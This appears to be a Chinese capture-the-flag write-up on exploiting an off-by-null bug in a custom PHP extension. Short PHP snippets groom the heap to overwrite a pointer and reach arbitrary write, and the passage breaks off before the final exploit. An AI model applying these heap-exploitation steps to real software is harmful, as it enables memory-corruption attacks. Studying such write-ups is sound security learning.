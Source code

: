 ![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404164958-au287x1.png)

漏洞点是`addHakcer`​的时候存在一个off by null的漏洞：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165024-3sweb6p.png)

按照如下布局：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

displayHacker(0);

?>

```

即可覆盖`chunkList[1].ptr->str1_ptr`​：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165217-nr557ub.png)

结合`editHacker`​的修改能力：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

editHacker(1, "hacked!!");
displayHacker(0);

?>
```

能在堆上进行一定的篡改：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165741-tz02367.png)

通过适当构造可以得到任意地址写：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250411172907-0bq68ih.png)

exp：
